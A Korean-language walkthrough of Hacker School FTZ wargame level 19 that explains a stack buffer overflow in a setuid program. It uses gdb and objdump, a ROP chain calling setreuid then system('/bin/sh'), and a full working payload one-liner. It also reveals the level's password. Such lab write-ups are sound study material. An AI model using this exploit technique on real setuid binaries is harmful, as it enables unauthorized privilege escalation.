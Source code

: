 ```yaml
---
sort: 19
---
```


# Level 19

```note
id : level19

password : swimming in pink
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 공격해보자.

```c
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

간단한 bof문제이다. 하지만 setuid가 걸려있지 않기 때문에 단순히 쉘코드를 입력하면 쉘을 얻더라도 권한이 그대로인 쉘을 획득한다.<br>
따라서 system을 통해 쉘을 실행하기 전에 `setreuid(level20's uid)`를 해줘야한다.<br><br>
먼저 main함수의 return address를 변조하기 위해 buf의 위치를 파악한 후 padding길이를 구한다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048440 (main+0):	push   %ebp
0x08048441 (main+1):	mov    %esp,%ebp
0x08048443 (main+3):	sub    $0x28,%esp
0x08048446 (main+6):	sub    $0xc,%esp

<b>0x08048449 (main+9):	lea    0xffffffd8(%ebp),%eax
0x0804844c (main+12):	push   %eax
0x0804844d (main+13):	call   0x80482f4 (gets) </b>

0x08048452 (main+18):	add    $0x10,%esp
0x08048455 (main+21):	sub    $0x8,%esp
0x08048458 (main+24):	lea    0xffffffd8(%ebp),%eax
0x0804845b (main+27):	push   %eax
0x0804845c (main+28):	push   $0x80484d8
0x08048461 (main+33):	call   0x8048324 (printf)
0x08048466 (main+38):	add    $0x10,%esp
0x08048469 (main+41):	leave  
0x0804846a (main+42):	ret
</pre>

id 명령어를 이용해 level20의 uid 값을 구한 후, objdump를 통해 setreuid, system 함수, "/bin/sh"의 위치를 알아낸다.<br>
level11에서 system함수, "/bin/sh"의 위치를 알아낼 때처럼 똑같이 하면 된다.

```bash
[level19@ftz tmp]$ id level20
uid=3100(level20) gid=3100(level20) groups=3100(level20)
[level19@ftz tmp]$ ldd ../attackme 
	libc.so.6 => /lib/tls/libc.so.6 (0x42000000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
[level19@ftz tmp]$ objdump -d /lib/tls/libc.so.6

... (중략) ...

420d7920 <setreuid>:
420d7920:       55                      push   %ebp
420d7921:       89 e5                   mov    %esp,%ebp
420d7923:       53                      push   %ebx
420d7924:       8b 55 08                mov    0x8(%ebp),%edx
420d7927:       e8 91 da f3 ff          call   420153bd <__i686.get_pc_thunk.bx>

... (후략) ...
```

우선 아래와 같이 먼저 setreuid를 호출하도록 했다. 그러나 setreuid를 호출한 후에 system함수를 호출하기 위해서는 setreuid함수가 끝난 후 esp값을 조율해주어야한다.<br>
esp가 system을 가리키도록 하기 위해서 pop pop ret 가젯을 찾아서 setreuid의 return address에 넣어준다. 이런식으로 ret으로 끝나는 가젯을 찾아서 실행시키는 것을 Return Oriented Programming (ROP)라고 한다.

<img src="/picture/hacker_school/ftz/level19_1.png" width="1000"/>
<img src="/picture/hacker_school/ftz/level19_2.png" width="700"/>


```asm
42015635:       5b                      pop    %ebx
42015636:       5d                      pop    %ebp
42015637:       c3                      ret
```

아래와 같이 payload를 구성하면 쉘을 딸 수 있다.

```bash
# 0x2c byte padding + setreuid + ret addr (pop pop ret gadget) + 3100 (level20's uid) + 3100 + system + 4 byte padding + addr of "/bin/sh"
[level19@ftz level19]$ (python -c "print('A'*0x2c+'\x20\x79\x0d\x42\x35\x56\x01\x42\x1c\x0c\x00\x00\x1c\x0c\x00\x00\xc0\xf2\x03\x42\x41\x41\x41\x41\xa4\x7e\x12\x42\n')";cat) | ./attackme 
B5VBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA y

my-pass
```

```tip
## 알게 된 점

buffer overflow, Return Oriented Programming (ROP)
```